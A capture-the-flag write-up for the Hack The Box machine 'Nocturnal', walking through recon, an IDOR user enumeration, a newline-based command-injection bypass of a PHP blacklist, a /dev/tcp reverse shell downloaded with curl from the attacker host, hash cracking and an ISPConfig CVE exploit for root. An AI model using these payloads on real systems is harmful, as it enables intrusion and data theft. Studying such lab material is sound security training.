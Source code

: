 ```yaml
---
slug: /write-up/htb/machines/easy/nocturnal
pagination_next: null
pagination_prev: null
---
```


# Nocturnal

## Enumeration

nmap:

```bash
└─$ nmap 10.10.11.64
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 20:56 CEST
Nmap scan report for 10.10.11.64
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

Whatweb:

```bash
whatweb nocturnal.htb                                                                                        
http://nocturnal.htb [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[support@nocturnal.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.64], Title[Welcome to Nocturnal], nginx[1.18.0]
```

Discovering folders with fuff, we found that `nginx` is returning 403 or 301 for the following folders:

- backups
- uploads
- uploads2

This might be useful for later.

In the website we see: `Please login or register to start uploading and viewing your files.`

When you upload a file, you can see the URL is http://nocturnal.htb/view.php?username=test%40test.htb&file=test.pdf

We can try to abuse this to list files.

`Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.`

If you register two users and upload different files, and you try to access same file from both accounts, you will discover that, i you send a valid username but invalid file, you'll get a list of the files uploaded for that username, e.g:

http://nocturnal.htb/view.php?username=test@test.htb&file=test2.pdf

So, we need a way of enumerating users. We can enumerate users with `fuff` and `SecLists`:

```bash
ffuf -w /opt/github/SecLists/Usernames/Names/names.txt:FUFF -u "http://nocturnal.htb/view.php?username=FUFF&file=test.pdf" -H "Cookie: PHPSESSID=xxx" -fw 1170
```

Take into account that we need to be authenticated to perform the IDOR (Insecure Direct Object Reference) attack. To simulate authentication, we can pass a cookie to fuff. The following users have been found:

```
admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 31ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 33ms]
kevin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 31ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 31ms]
```

Amanda has a file named `privacy.odt`. The password for amanda is in that file. Trying to ssh to the machine with amanda user and password failed; but we can access the website and have access to the admin panel.

## Foothold

Now we have access to the source code and we have a form to create and access backups. We see there are two folders: `uploads` and `backups` shown in the Admin panel. The admin panel only shows php files, but if we create a backup we'll have access to the uploads content.

The URL format of the backup is `http://nocturnal.htb/backups/backup_2025-08-17.zip`. We can try to bruteforce the backup folder and see if we find something interesting. Nothing found ...

However, checking the code of the create backup function, a potential command injection is found via the password file

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

However, the password input is cleaned:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```

After messing around, I found a way to bypass the cleaning function: use newline character to execute different commands, e.g:

```bash
ls
id
```

Newline character is not cleaned up from the user input. Since we have access to the source code, we can prepare an experiment to see if we can bypass the limitation with `\n`:

```php
$entry="1\nid>/tmp\n";
$password = cleanEntry($entry);
```

Since we want to retrieve the output of the `id` command, we need to force an error. In the legitimate command, stdout and stderr are redirected to a log:

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

The only thing now missing is testing it via the UI. However, due to the nature of the HTML components, looks like the password is not sent to the PHP endpoint as we want. Instead, we can rely to manual execution with curl.

If we try to send `\n` char our command injection will fail, however, we can send the url-encoded version of the payload:

```
password=1%0Aid>/tmp%0A&backup=
```

In the same way, we can leverage `\t` instead of ` `.

And we will see the contents of the id command in the returned logs.

Now, we can try to create a reverse shell abusing of this RCE. Since there are a lot of restrictions on the command injection, we'll build the reverse shell payload locally and upload it to the target.

1. Go to revshells.com
2. Write the reverse shell to a file in the attacker machine
```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.173/9001 0>&1"' > payload
```
3. Download the payload in the victim machine. Pass the command injection with a payload that will execute:
```bash
curl 10.10.14.173:8000/shell -o payload
```
This will download the payload to same directory
4. Check if the payload has been downloaded:
```bash
ls -l payload
```
5. Execute the payload:
```bash
bash payload
```

And we'll have a very nice shell into the machine with user `www-data`.

## Lateral movement

An SQLite database is found with www-data ownership. Let's exfiltrate it.

In the database there's a bunch of users/hashes. According to hashcat, they are md4 hashes.

Let's crack them:

```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

And we find the password for user `tobias`.

We can now connect and retrieve the user flag.

## Privilege escalation

There's a bunch of application listening in localhost:
```shell
tobias@nocturnal:~$ netstat -putona
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      -                    off (0.00/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                    off (0.00/0/0)
```

In port 8080, it's something called ISPConfig. More info here: https://en.wikipedia.org/wiki/ISPConfig

Tried a SSH port forwarding the application complained about a possible attack. Most likely, there's something that checks the hostname. We can modify /etc/hosts in our attacker machine to tell that nocturnal.htb now points to localhost.

We can log in as admin - the password cracked for tobias.

Trying to determine the version of the running ISPConfig.

Come across some vulnerabilities:

- https://github.com/ajdumanhug/CVE-2023-46818

It will exploit versions of ISPConfig `<= 3.2.11` and we've got ISPConfig Version: 3.2.10p1

We are lucky, looks like it will be affected

The poc will give us access to a `ispconfig-shell` as root. Looks like we cannot escape current directory, but, we can run a reverse shell from there that will give us full root access and we will be able to retrieve the flag.